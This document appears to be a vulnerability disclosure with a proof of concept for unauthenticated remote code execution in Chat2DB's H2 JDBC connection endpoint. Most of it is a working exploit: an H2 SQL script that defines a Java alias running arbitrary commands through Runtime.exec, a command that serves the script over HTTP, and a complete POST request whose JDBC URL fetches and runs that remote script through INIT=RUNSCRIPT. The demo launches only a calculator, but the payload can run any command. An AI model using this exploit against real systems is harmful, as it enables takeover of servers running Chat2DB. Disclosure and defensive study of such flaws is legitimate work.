 # Chat2DB H2 JDBC Driver Remote Code Execute Vulnerability

**Creator：** zack



## Description

The REST API of Chat2DB (/api/connection/datasource/pre_connect) has a remote code execution vulnerability that occurs when an unauthenticated H2 JDBC connection is used.

## Proof of Concept

1. Download the Chat2DB client and run it [Chat2DB Client](https://github.com/CodePhiliaX/Chat2DB/releases/tag/v0.3.7)
2. Use Python to start an HTTP service for accessing our malicious SQL script file.

```sql
#poc.sql
CREATE ALIAS COMMAND_EXEC AS $$ String commandExec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL COMMAND_EXEC('calc')
```

```
python -m http.server 8888 --bind 0.0.0.0
```

3. Use the following POC to send the request

```
POST /api/connection/datasource/pre_connect HTTP/1.1
Host: 127.0.0.1:10824
Content-Length: 449
Accept: application/json
Content-Type: application/json
User-Agent: aaa
sec-ch-ua-platform: "custom"
Origin: http://127.0.0.1:10824
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:10824/connections
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: dsfsdfd
Connection: keep-alive

{"ssh":{"use":false,"hostName":"","port":"22","userName":"","localPort":"","authenticationType":"password","password":""},"alias":"@localhost","environmentId":1,"host":"localhost","port":"9092","serviceType":"TCP","authenticationType":"1","user":"root","password":"test","database":"test","url":"jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:8888/poc.sql'","extendInfo":[],"connectionEnvType":"DAILY","type":"H2"}
```

4. Successful remote code execution

![image-20250613195234510](D:\notes\notes-software\typora\Typora\data\Chat2DB H2 JDBC Driver Remote Code Execute Vulnerability\image-20250613195234510.png)

